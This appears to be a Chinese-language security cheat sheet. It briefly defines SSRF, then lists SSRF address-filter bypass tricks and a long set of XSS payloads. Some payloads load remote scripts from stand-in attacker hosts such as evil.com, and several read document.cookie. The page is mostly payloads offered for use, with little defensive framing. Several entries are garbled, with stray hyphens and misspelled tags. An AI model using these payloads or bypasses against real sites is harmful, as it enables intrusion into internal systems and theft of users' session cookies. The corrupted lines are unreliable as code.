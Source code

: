 ## SSRF&XSS
SRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 常用绕过 payload等
```
使用@：http://A.com@10.10.10.10 = 10.10.10.10
IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
端口绕过：ip后面加一个端口
xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
       
```
## XSS

## 常见payload

```html
- <script>alert(1);</script>
- <img src=0 onerror=alert(1)>
- "><script src=http://www.xxx.com/1.js></script>"
- "></iframe><script>alert(123)></script>
- <body onLoad="while(true) alert("XSS"),">
- "></tile><script>alert(1111)</script>
- </textarea>'"><script>alert(document.cookie)</script>
- '""><script language="JavaScript"> alert("X \nS \nS"),</- script>
- </script></script><<<<script><>>>><<<script>alert(123)</- script>
- <html><noalert><noscript>(123)</noscript><script>(123)</- script>
- <INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
- '></select><script>alert(123)</script>
- '>'><script src='http://www.evil.com/XSS.js'></script>
- }</style><script>a=eval;b=alert;a(b(/XSS/.source));</- script>
- <SCRIPT>document.write("XSS");</SCRIPT>
- a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a- +b+c+d);
- ='><script>alert("XSS")</script>
- <sctipt+src=">"+src="http://www.evil.com/XSS.js?68,- 69"></script>
- <body backgroud=jabascript:'"><script>alert- (navigator.userAgent)</sctipt>></body>
- ">XaDoS/><script>alert(document.cookie)</script><script - src="http://www.site.com/X
- Data:text/html;charset=utf-7;base64.Ij481.3RpdGod- [jxzY3JpcHQ+YWxlcnQoMIMzNy
- "<marquee><img src=k.png onerror=alert(/XSS/)/>
- "<marquee><img src=k onerror=alert(/XSS/)>
- '"><marquee><img src=k.png onerror=alert(/XSS/.source)/>
- </div><script>alert(123)</script>
- "><iframe src="javascript:alert(document.cookie)- '><iframe>
- <div style="backgroud:url("javascript:alert(I)')">
- <img src="java\nascript:alert(\"XSS\")">
- >"><img src="javascript:alert("XSS")">
- "style="background:url(javascript:alert(/XSS/))"
- >"><script>alert(/XSS/)</script>
- "></title><script>alert(I)</script>
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html